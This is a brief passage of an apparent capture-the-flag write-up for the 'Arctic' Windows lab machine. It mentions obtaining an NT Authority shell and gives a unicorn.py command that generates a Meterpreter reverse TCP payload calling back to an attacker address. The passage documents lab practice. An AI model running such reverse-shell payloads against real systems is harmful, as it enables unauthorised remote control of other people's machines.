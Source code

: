 ![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/ms075.png)

and you get the privillage shell witn `NT/Authority`

### Another way to get Shell

```sh
python unicorn.py windows/meterpreter/reverse_tcp 10.10.14.9 31337  
```

it generates two file and instruction on starting metasploit.

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/unicorn.png)
